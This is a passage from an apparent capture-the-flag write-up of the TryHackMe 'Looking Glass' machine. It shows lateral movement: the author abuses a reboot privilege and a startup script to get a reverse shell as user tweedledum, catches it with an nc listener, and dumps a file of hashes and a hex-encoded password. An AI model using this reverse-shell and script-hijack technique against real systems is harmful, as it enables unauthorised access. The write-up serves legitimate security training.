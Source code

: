 `sudo -l` also reveals that we can reboot at will.

```
jabberwock@looking-glass:~$ sudo -l
Matching Defaults entries for jabberwock on looking-glass:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jabberwock may run the following commands on looking-glass:
    (root) NOPASSWD: /sbin/reboot
```

That's all we need to send a shell as `tweedledum` back to us at reboot.

Set up our listener, edit the script, and reboot.

```
jabberwock@looking-glass:~$ vim twasBrillig.sh
jabberwock@looking-glass:~$ cat twasBrillig.sh

jabberwock@looking-glass:~$ sudo reboot
Connection to 10.10.68.249 closed by remote host.
Connection to 10.10.68.249 closed.
```

```
┌──(kali㉿kali)-[~/tryhackme/lookingglass]
└─$ nc -lvnp 4444                      
listening on [any] 4444 ...
connect to [10.13.18.7] from (UNKNOWN) [10.10.68.249] 46102
bash: cannot set terminal process group (892): Inappropriate ioctl for device
bash: no job control in this shell
tweedledum@looking-glass:~$
```

## More Lateral Movement

We have 2 files here.

```
tweedledum@looking-glass:~$ cat humptydumpty.txt
cat humptydumpty.txt
dcfff5eb40423f055a4cd0a8d7ed39ff6cb9816868f5766b4088b9e9906961b9
7692c3ad3540bb803c020b3aee66cd8887123234ea0c6e7143c0add73ff431ed
28391d3bc64ec15cbb090426b04aa6b7649c3cc85f11230bb0105e02d15e3624
b808e156d18d1cecdcc1456375f8cae994c36549a07c8c2315b473dd9d7f404f
fa51fd49abf67705d6a35d18218c115ff5633aec1f9ebfdc9d5d4956416f57f6
b9776d7ddf459c9ad5b0e1d6ac61e27befb5e99fd62446677600d7cacef544d0
5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8
7468652070617373776f7264206973207a797877767574737271706f6e6d6c6b
tweedledum@looking-glass:~$ cat poem.txt
cat poem.txt
     'Tweedledum and Tweedledee
      Agreed to have a battle;
     For Tweedledum said Tweedledee
      Had spoiled his nice new rattle.

     Just then flew down a monstrous crow,
      As black as a tar-barrel;
     Which frightened both the heroes so,
      They quite forgot their quarrel.'
```
